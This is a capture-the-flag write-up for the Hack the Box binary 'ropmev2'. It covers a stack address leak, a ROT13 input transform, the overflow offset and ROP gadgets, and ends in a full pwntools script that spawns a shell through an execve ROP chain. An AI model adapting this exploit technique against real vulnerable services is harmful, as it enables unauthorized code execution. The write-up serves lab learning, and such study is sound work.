

# Hack the Box ropmev2


## Analysing the binary

Running the binary gives me the following prompt:

```
 ./ropmev2 
Please dont hack me
```

Entering any value doesn't give me anything. Therefore I decompile the binary using Cutter.

```
undefined8 main(void)
{
    int32_t iVar1;
    char *buf;
    
    fcn.00401213();
    printf("Please dont hack me\n", &buf);
    read(0, &buf, 500);
    iVar1 = strcmp("DEBUG\n", &buf);
    if (iVar1 == 0) {
        printf("I dont know what this is %p\n", &buf);
        main();
    }
    fcn.00401238((char *)&buf);
    return 0;
}
```

This is the decompilation code for the main function. This compares with the string "DEBUG". </br>If the entered string is equal to DEBUG then it gives the base address of the buffer that is storing the string. </br> However if it not equal then a function is called and then the entered string is passed to that function and the main function is called again.


### Disassembly of the second function

```
void fcn.00401238(char *arg1)
{
    uint64_t uVar1;
    char *s;
    int64_t var_14h;
    
    if (arg1 != (char *)0x0) {
        var_14h._0_4_ = 0;
        while (uVar1 = strlen(arg1), (uint64_t)(int64_t)(int32_t)var_14h < uVar1) {
            if ((arg1[(int32_t)var_14h] < 'a') || ('m' < arg1[(int32_t)var_14h])) {
                if ((arg1[(int32_t)var_14h] < 'A') || ('M' < arg1[(int32_t)var_14h])) {
                    if ((arg1[(int32_t)var_14h] < 'n') || ('z' < arg1[(int32_t)var_14h])) {
                        if (('M' < arg1[(int32_t)var_14h]) && (arg1[(int32_t)var_14h] < '[')) {
                            arg1[(int32_t)var_14h] = arg1[(int32_t)var_14h] + -0xd;
                        }
                    } else {
                        arg1[(int32_t)var_14h] = arg1[(int32_t)var_14h] + -0xd;
                    }
                } else {
                    arg1[(int32_t)var_14h] = arg1[(int32_t)var_14h] + '\r';
                }
            } else {
                arg1[(int32_t)var_14h] = arg1[(int32_t)var_14h] + '\r';
            }
            var_14h._0_4_ = (int32_t)var_14h + 1;
        }
    }
    return;
}
```

Disassembling this function tells us that this is a ROT13 function. So whatever string we input in the program,it will perfor m ROT13 operation on it. 



The above image shows that the padding sent was different than the one we got a crash on. If we calculate the difference between the two sequence of character, it will be clear that the function is a ROT13 function that is executing.

### Tackling the ROT13 function to get the correct offset

To tackle the rot13 function, I wrote a wrote a ROT13 function of my own. This would set our padding to the correct value before sending it.


```
def rot13(s):
    chars = "abcdefghijklmnopqrstuvwxyz"
    trans = chars[13:]+chars[:13]
    rot_char = lambda c: trans[chars.find(c)] if chars.find(c)>-1 else c
    return ''.join( rot_char(c) for c in s ) 
```

After sending this to the program and using cyclic_find to get the offset it is found to be 216.


This shows that we are able to succesfully get the crash. 


## Creating the ropchain

In the disassebly we can find that there is a syscall, which can be used to call a execve.

**You can also put a null byte at the begining of the padding to skip the ROT13 function**


If we notice where the sequence of 'a's is starting, we can use it to get the difference between the leaked address and this one. So that later on when we place our string in it, we can point to it.


The difference will be `0xe0`


## Refering to the x64 syscall documentation 

To build a ropchain with the syscall, we need to know exactly what should be the values of the registers. 

[https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)


The following should be the values of the registers :

```
rax = 59

rdi = Argument to the finction. Here "/bin/bash"

rsi = 0

rx = 0
```

Here rsi and rdx are zeroed out because we do not need the other argument and rdx to point to the environment variable.


## Collecting rop gadgest

The rop gadgets can be found using the ropper tool.</br>
I used the following gadgets :

```
0x000000000040142b: pop rdi; ret;
0x0000000000401162: pop rax; ret;
0x0000000000401429: pop rsi; pop r15; ret;
0x0000000000401164: pop rdx; pop r13; ret;
0x0000000000401168: syscall; ret;
```

## Building the ropchain

The ropchain should look something like following : 

"/bin/sh"+padding+pop_rdi+"pointer to /bin/sh"+pop_rax+"execve call value"+pop_rsi+null_bytes+pop_rdx+null_bytes


**Change the /bin/sh to /ova/fu because it is changed by the rot13 function**


Make the padding as follows

```
padding = b'/ova/fu\x00'
padding = padding+b'a'*(216-len(padding))
```


Thus the whole exploit looks something like this:

```
#pop_rax = 0x0000000000401162
#pop_rdi = 0x000000000040142b
#pop_rsi = 0x0000000000401429
#pop_rdx = 0x0000000000401164
#syscall = 0x0000000000401168
from pwn import *

def rot13(s):
    chars = "abcdefghijklmnopqrstuvwxyz"
    trans = chars[13:]+chars[:13]
    rot_char = lambda c: trans[chars.find(c)] if chars.find(c)>-1 else c
    return ''.join( rot_char(c) for c in s ) 

context.terminal = ['urxvt','-e','sh','-c']
context.log_level = 'DEBUG'
#for local
sh = gdb.debug("./ropmev2")
#for remote
#sh = remote("ip",1234)
sh.recvline()
sh.sendline("DEBUG")
leak = sh.recvline()
leak = leak.decode()
leak = leak[25:]
print("LEAK IS  :",leak)

leak = int(leak,16)

pop_rax = p64(0x0000000000401162)
pop_rdi = p64(0x000000000040142b)
pop_rsi = p64(0x0000000000401429)
pop_rdx = p64(0x0000000000401164)
syscall = p64(0x0000000000401168)

'''
padding = cyclic(300)
padding = rot13(padding)
sh.sendline(padding)
'''
binshp = leak - 0xe0
binshp = p64(binshp)
#padding = "/ova/fu\x00".ljust(216,"a")
#padding = padding.encode()
padding = b'/ova/fu\x00'
padding = padding+b'a'*(216-len(padding))

payload = padding+pop_rdi+binshp+pop_rax+p64(0x3b)+pop_rsi+p64(0x00)*2+pop_rdx+p64(0x00)*2+syscall
sh.sendline(payload)

sh.interactive()
```


## Regarding the troll on the server

When I tried to exploit this on the server, it wouldn't work because there was no /bin/sh. Change this to /bin/bash, and it will work fine.
